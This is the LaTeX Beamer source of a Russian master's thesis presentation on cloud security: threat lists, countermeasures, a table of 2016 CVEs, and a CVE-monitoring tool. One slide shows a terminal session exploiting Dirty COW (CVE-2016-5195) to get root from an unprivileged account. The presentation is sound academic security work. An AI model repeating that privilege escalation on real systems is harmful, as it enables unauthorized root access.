%!TEX TS-program = xelatex

\documentclass[xetex,mathserif,serif,t]{beamer}
% Если хотим соотношение сторон 16:9
% \documentclass[aspectratio=169,xetex,mathserif,serif,t]{beamer}

%%% Преамбула
\usetheme{MasterThesis} % Тема

%%% Работа с русским языком
\usepackage{fontspec,xunicode,xltxtra}

\defaultfontfeatures{Ligatures=TeX} % Для преобразования -- и ---
\setmainfont{PT Sans}
\setmonofont{PT Mono}

%%% Beamer по-русски
\newtheorem{rtheorem}{Теорема}
\newtheorem{rproof}{Доказательство}
\newtheorem{rexample}{Пример}

%%% Дополнительная работа с математикой
\usepackage{amsmath,amsfonts,amssymb,amsthm,mathtools} % AMS
\usepackage{icomma} % "Умная" запятая: $0,2$ --- число, $0, 2$ --- перечисление

%%% Свои команды
\DeclareMathOperator{\sgn}{\mathop{sgn}}

%%% Перенос знаков в формулах (по Львовскому)
\newcommand*{\hm}[1]{#1\nobreak\discretionary{}
{\hbox{$\mathsurround=0pt #1$}}{}}

%%% Работа с картинками
\usepackage{graphicx}    % Для вставки рисунков
\graphicspath{{../images/}} % Каталоги с картинками
\setlength\fboxsep{3pt}  % Отступ рамки \fbox{} от рисунка
\setlength\fboxrule{1pt} % Толщина линий рамки \fbox{}
\usepackage{wrapfig}     % Обтекание рисунков текстом

%%% Работа с таблицами
\usepackage{array,tabularx,tabulary,booktabs} % Дополнительная работа с таблицами
\usepackage{longtable}  % Длинные таблицы
\usepackage{multirow}   % Слияние строк в таблице

%%% Другие пакеты
\usepackage{lastpage} % Узнать, сколько всего страниц в документе
\usepackage{soulutf8} % Модификаторы начертания
\usepackage{csquotes} % Еще инструменты для ссылок
\usepackage{multicol} % Несколько колонок
\usepackage{etoolbox} % Логические операторы

%%% Картинки
\usepackage{tikz,calc,ifthen,color}

\title{Исследование процессов обеспечения безопасности облачных сред}
\author[Умеров Амет]{Умеров Амет}
\institute{}
\date{}

\begin{document}
%%% Содержимое слайдов

\frame[plain]{\titlepage} % Титульный слайд

%-------------------------------------------------------------------------------

\section{Угрозы безопасности}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{По данным CSA за 2016~г.}

\begin{itemize}
    \item утечка данных
    \item компрометация учетных записей и обход аутентификации
    \item взлом интерфейсов и API
    \item уязвимости в используемых системах
    \item кража учетных записей
    \item инсайдеры-злоумышленники
    \item целевые кибератаки
    \item перманентная потеря данных
    \item недостаточная осведомленность
    \item злоупотребление облачными сервисами
    \item DDoS-атаки
    \item совместные технологии, общие риски
\end{itemize}
\end{frame}

%-------------------------------------------------------------------------------

\section{Борьба с проблемами в безопасности}

\begin{frame}
\frametitle{\insertsection}

\begin{itemize}
    \item многофакторная аутентификация (2FA/MFA)
    \item стойкое шифрование (SSL/TLS)
    \item использование одноразовых паролей и токенов
    \item контроль доступа, шифрование API
    \item периодические пентестинги и аудиты безопасности
    \item регулярное сканирование на наличие уязвимостей
    \item мониторинг и логирование
    \item резервное копирование и репликация
    \item резервирование сетевых каналов и сегментация сети
\end{itemize}
\end{frame}

%-------------------------------------------------------------------------------

\section{Решения в рамках ВКР магистра}

\begin{frame}
\frametitle{\insertsection}

\begin{itemize}
    \item сбор и структурирование имеющейся информации по безопасности
    \item системный анализ полученной информации
    \item выбор альтернатив согласно набору критериев (МАИ)
    \item практическое применение полученной информации
    \item анализ наиболее опасных уязвимостей 2016~г.
    \item эксплуатация уязвимостей в облачной среде
    \item создание методов быстрого реагирования на уязвимости
\end{itemize}
\end{frame}

%-------------------------------------------------------------------------------

\section{Критические уязвимости 2016~г.}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{По данным www.cvedetails.com}

\begin{table}
    \begin{tabular}{|l|l|p{4cm}|l|}
        \hline \textbf{CVE ID} & \textbf{CVSS} & \textbf{Тип уязвимости} & \textbf{ПО} \\
        \hline CVE-2016-5195 & 7.2 & Получение привилегий & Linux Kernel \\
        \hline CVE-2016-6258 & 7.2 & Получение привилегий & Xen \\
        \hline CVE-2016-5696 & 5.8 & Получение данных & Linux Kernel \\
        \hline CVE-2016-3710 & 7.2 & Запуск кода & QEMU \\
        \hline CVE-2016-8655 & 7.2 & Получение привилегий, DoS & Linux Kernel \\
        \hline CVE-2016-4997 & 7.2 & Получение привилегий, DoS, доступ к памяти & Linux Kernel \\
        \hline CVE-2016-4484 & 7.2 & Получение привилегий & CryptSetup \\
        \hline CVE-2016-6309 & 10.0 & DoS, запуск кода & OpenSSL\\
        \hline
    \end{tabular}
\end{table}
\end{frame}

%-------------------------------------------------------------------------------

\section{Эксплуатация CVE-2016-5195}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{<<Dirty COW>> (Copy-on-write)}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow)
}}

\vspace{\baselineskip}

{\small \texttt{\$ g++ dcow.cpp -std=c++11 -pthread -lutil -o dcow \\
\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}

%-------------------------------------------------------------------------------

\section{Мониторгинг уязвимостей}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{https://github.com/Amet13/vulncontrol}

{\scriptsize \texttt{\$ ./vulncontrol.py −d 2017−02−18 −m 5 -t \$TOKEN \$ID \\
CVE−2017−6074 9.3 http://www.cvedetails.com/cve/CVE−2017−6074/ \\
CVE−2017−6001 7.6 http://www.cvedetails.com/cve/CVE−2017−6001/ \\
CVE−2017−5986 7.1 http://www.cvedetails.com/cve/CVE−2017−5986/ \\
Telegram alert sent
}}

\begin{figure}
    \center
    
\includegraphics[width=0.65\linewidth]{tscreen}
\end{figure}
\end{frame}

%-------------------------------------------------------------------------------

\section{Результаты}

\begin{frame}
\frametitle{\insertsection}

\begin{itemize}
    \item обзор литературных источников и открытых стандартов
    \item анализ рынка облачных услуг
    \item определение угроз безопасности облачных вычислений и методов их решения
    \item системный анализ безопасности облачной среды
    \item вариантный анализ для выбора оптимальной альтернативы
    \item сбор данных по наиболее опасным уязвимостям в ПО
    \item практическая эксплуатация уязвимости CVE-2016-5195
    \item разработка системы сбора данных по уязвимостям
    \item публикация исследований под свободной лицензией {\color{green}CC BY-SA 4.0}, исходного кода под {\color{green}GPLv3}
\end{itemize}
\end{frame}

%-------------------------------------------------------------------------------

\end{document}
